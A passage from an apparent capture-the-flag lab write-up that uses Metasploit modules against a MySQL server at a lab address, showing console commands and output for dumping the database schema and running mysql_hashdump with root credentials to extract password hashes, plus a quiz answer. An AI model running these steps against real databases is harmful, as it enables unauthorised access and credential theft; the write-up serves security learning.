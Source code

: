 ```
PASSWORD => password  
msf6 auxiliary(scanner/mysql/mysql\_schemadump) > set USERNAME root  
USERNAME => root  
msf6 auxiliary(scanner/mysql/mysql\_schemadump) > run
```

The exploit will give a very large output scroll all the way to the bottom to answer the next question.

```
\- TableName: x$waits\_global\_by\_latency  
    Columns:  
    - ColumnName: events  
      ColumnType: varchar(128)  
    - ColumnName: total  
      ColumnType: bigint(20) unsigned  
    - ColumnName: total\_latency  
      ColumnType: bigint(20) unsigned  
    - ColumnName: avg\_latency  
      ColumnType: bigint(20) unsigned  
    - ColumnName: max\_latency  
      ColumnType: bigint(20) unsigned
```

2\. Great! Now, you’ve done this a few times by now so I’ll let you take it from here. Set the relevant options, run the exploit. What’s the name of the last table that gets dumped?

```
x$waits\_global\_by\_latency
```

Again search for another module called ‘mysql\_hashdump’ and set all the required options and run the exploit.

```
msf6 auxiliary(scanner/mysql/mysql\_schemadump) > search mysql\_hashdumpMatching Modules  
\================\#  Name                                    Disclosure Date  Rank    Check  Description  
   -  ----                                    ---------------  ----    -----  -----------  
   0  auxiliary/scanner/mysql/mysql\_hashdump                   normal  No     MYSQL Password Hashdump  
   1  auxiliary/analyze/crack\_databases                        normal  No     Password Cracker: DatabasesInteract with a module by name or index. For example info 1, use 1 or use auxiliary/analyze/crack\_databasesmsf6 auxiliary(scanner/mysql/mysql\_schemadump) > use 0  
msf6 auxiliary(scanner/mysql/mysql\_hashdump) > show optionsModule options (auxiliary/scanner/mysql/mysql\_hashdump):Name      Current Setting  Required  Description  
   ----      ---------------  --------  -----------  
   PASSWORD                   no        The password for the specified username  
   RHOSTS                     yes       The target host(s), see [https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit](https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit)  
   RPORT     3306             yes       The target port (TCP)  
   THREADS   1                yes       The number of concurrent threads (max one per host)  
   USERNAME                   no        The username to authenticate asmsf6 auxiliary(scanner/mysql/mysql\_hashdump) > set PASSWORD password  
PASSWORD => password  
msf6 auxiliary(scanner/mysql/mysql\_hashdump) > set RHOSTS 10.10.75.70  
RHOSTS => 10.10.75.70  
msf6 auxiliary(scanner/mysql/mysql\_hashdump) > set USERNAME root  
USERNAME => root  
msf6 auxiliary(scanner/mysql/mysql\_hashdump) > run
```
